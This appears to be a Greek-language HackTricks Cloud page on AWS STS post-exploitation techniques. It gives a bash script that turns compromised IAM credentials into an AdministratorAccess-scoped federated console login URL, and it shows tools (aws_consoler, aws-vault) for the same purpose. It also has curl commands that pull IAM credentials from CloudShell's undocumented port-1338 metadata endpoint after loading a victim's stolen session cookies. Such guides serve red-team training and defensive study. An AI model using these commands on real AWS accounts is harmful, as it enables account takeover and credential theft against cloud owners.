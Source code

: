 # AWS - STS Post Exploitation

{% hint style="success" %}
Μάθετε και εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Μάθετε και εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Γίνετε μέλος της** 💬 [**ομάδας Discord**](https://discord.gg/hRep4RUj7f) ή της [**ομάδας telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε hacking tricks υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια στο github.

</details>
{% endhint %}

## STS

Για περισσότερες πληροφορίες:

{% content-ref url="../../aws-security/aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../../aws-security/aws-services/aws-iam-enum.md)
{% endcontent-ref %}

### Από IAM Creds σε Console

Εάν έχετε καταφέρει να αποκτήσετε κάποια IAM credentials, μπορεί να σας ενδιαφέρει να **αποκτήσετε πρόσβαση στην web console** χρησιμοποιώντας τα παρακάτω εργαλεία.\
Σημειώστε ότι ο χρήστης/ρόλος πρέπει να έχει την άδεια **`sts:GetFederationToken`**.

#### Custom script

Το παρακάτω script θα χρησιμοποιήσει το προεπιλεγμένο προφίλ και μια προεπιλεγμένη τοποθεσία AWS (όχι gov και όχι cn) για να σας δώσει ένα υπογεγραμμένο URL που μπορείτε να χρησιμοποιήσετε για να συνδεθείτε στην web console:

{% code overflow="wrap" %}
```bash
# Get federated creds (you must indicate a policy or they won't have any perms)
## Even if you don't have Admin access you can indicate that policy to make sure you get all your privileges
## Don't forget to use [--profile <prof_name>] in the first line if you need to
output=$(aws sts get-federation-token --name consoler --policy-arns arn=arn:aws:iam::aws:policy/AdministratorAccess)

if [ $? -ne 0 ]; then
echo "The command 'aws sts get-federation-token --name consoler' failed with exit status $status"
exit $status
fi

# Parse the output
session_id=$(echo $output | jq -r '.Credentials.AccessKeyId')
session_key=$(echo $output | jq -r '.Credentials.SecretAccessKey')
session_token=$(echo $output | jq -r '.Credentials.SessionToken')

# Construct the JSON credentials string
json_creds=$(echo -n "{\"sessionId\":\"$session_id\",\"sessionKey\":\"$session_key\",\"sessionToken\":\"$session_token\"}")

# Define the AWS federation endpoint
federation_endpoint="https://signin.aws.amazon.com/federation"

# Make the HTTP request to get the sign-in token
resp=$(curl -s "$federation_endpoint" \
--get \
--data-urlencode "Action=getSigninToken" \
--data-urlencode "SessionDuration=43200" \
--data-urlencode "Session=$json_creds"
)
signin_token=$(echo -n $resp | jq -r '.SigninToken' | tr -d '\n' | jq -sRr @uri)



# Give the URL to login
echo -n "https://signin.aws.amazon.com/federation?Action=login&Issuer=example.com&Destination=https%3A%2F%2Fconsole.aws.amazon.com%2F&SigninToken=$signin_token"
```
{% endcode %}

#### aws\_consoler

Μπορείτε να **δημιουργήσετε έναν σύνδεσμο web κονσόλας** με [https://github.com/NetSPI/aws\_consoler](https://github.com/NetSPI/aws\_consoler).
```bash
cd /tmp
python3 -m venv env
source ./env/bin/activate
pip install aws-consoler
aws_consoler [params...] #This will generate a link to login into the console
```
{% hint style="warning" %}
Βεβαιωθείτε ότι ο χρήστης IAM έχει την άδεια `sts:GetFederationToken`, ή παρέχετε έναν ρόλο για ανάληψη.
{% endhint %}

#### aws-vault

[**aws-vault**](https://github.com/99designs/aws-vault) είναι ένα εργαλείο για την ασφαλή αποθήκευση και πρόσβαση σε AWS credentials σε ένα περιβάλλον ανάπτυξης.
```bash
aws-vault list
aws-vault exec jonsmith -- aws s3 ls # Execute aws cli with jonsmith creds
aws-vault login jonsmith # Open a browser logged as jonsmith
```
{% hint style="info" %}
You can also use **aws-vault** to obtain an **browser console session**
{% endhint %}

#### Από Console σε IAM Creds

[**Αρχικά ανακαλύφθηκε σε αυτήν την ανάρτηση**](https://blog.christophetd.fr/retrieving-aws-security-credentials-from-the-aws-console/), Εάν καταφέρετε να παραβιάσετε κάποια πρόσβαση σε μια web console (ίσως κλέψατε cookies και δεν μπορούσατε να αποκτήσετε πρόσβαση στον φάκελο .aws), μπορείτε να αποκτήσετε κάποια IAM token credentials για αυτόν τον χρήστη μέσω **CloudShell**.

Το CloudShell εκθέτει IAM credentials μέσω ενός **μη τεκμηριωμένου endpoint στην θύρα 1338**. Αφού φορτώσετε τα session cookies από το θύμα στον περιηγητή σας, μπορείτε να πλοηγηθείτε στο CloudShell και να εκτελέσετε τις ακόλουθες εντολές για να λάβετε IAM credentials.
```bash
TOKEN=$(curl -X PUT localhost:1338/latest/api/token -H "X-aws-ec2-metadata-token-ttl-seconds: 60")
curl localhost:1338/latest/meta-data/container/security-credentials -H "X-aws-ec2-metadata-token: $TOKEN"
```
{% hint style="success" %}
Μάθετε και εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Μάθετε και εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Δείτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Γίνετε μέλος της** 💬 [**ομάδας Discord**](https://discord.gg/hRep4RUj7f) ή της [**ομάδας telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε hacking tricks υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια στο github.

</details>
{% endhint %}
